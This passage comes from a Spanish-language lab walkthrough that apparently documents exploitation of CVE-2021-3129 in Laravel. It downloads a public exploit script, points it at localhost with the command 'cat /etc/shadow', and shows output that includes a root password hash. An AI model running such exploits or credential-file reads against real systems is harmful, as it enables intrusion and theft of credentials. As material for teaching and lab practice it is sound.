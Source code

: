 Por otro lado, también nos encontramos con un repositorio de GitHub que automatiza todo este procedimiento.

{% embed url="https://github.com/knqyf263/CVE-2021-3129" %}

```bash
❯ wget https://raw.githubusercontent.com/knqyf263/CVE-2021-3129/refs/heads/main/attacker/exploit.py
--2025-02-19 13:35:00--  https://raw.githubusercontent.com/knqyf263/CVE-2021-3129/refs/heads/main/attacker/exploit.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.110.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3976 (3,9K) [text/plain]
Grabando a: «exploit.py»

exploit.py                                                100%[===================================================================================================================================>]   3,88K  --.-KB/s    en 0s      

2025-02-19 13:35:00 (48,0 MB/s) - «exploit.py» guardado [3976/3976]
```

Lo único que deberemos de editar en el archivo `exploit.py` es el contenido de la URL vulnerable y el comando que queremos ejecutar en el sistema.

Lanzamos el exploit y lo primero que realiza es comprobar si tenemos `phpgcc` instalado en el directorio actual, en caso de que no lo tuviéramos haría la descarga automáticamente. Una vez comprobado, nos ejecutará el comando realizado, en este caso la explotación ha sido exitosa y se muestra le ejecución del comando `cat /etc/shadow`, como el usuario que ejecuta estos comandos es `root`, podemos visualizar de este archivo privilegiado.

```python
def main():
    Exploit("http://localhost:8000", "cat /etc/shadow")
```

```bash
❯ python3 exploit.py
[*] Try to use monolog_rce1 for exploitation.
[+] PHPGGC found. Generating payload and deploy it to the target
[*] Result:
root:$6$rGxQBZV9$SbzCXDzp1MEx7xxXYuV5voXCy4k9OdyCDbyJcWuETBujfMrpfVtTXjbx82bTNlPK6Ayg8SqKMYgVlYukVOKJz1:18836:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
```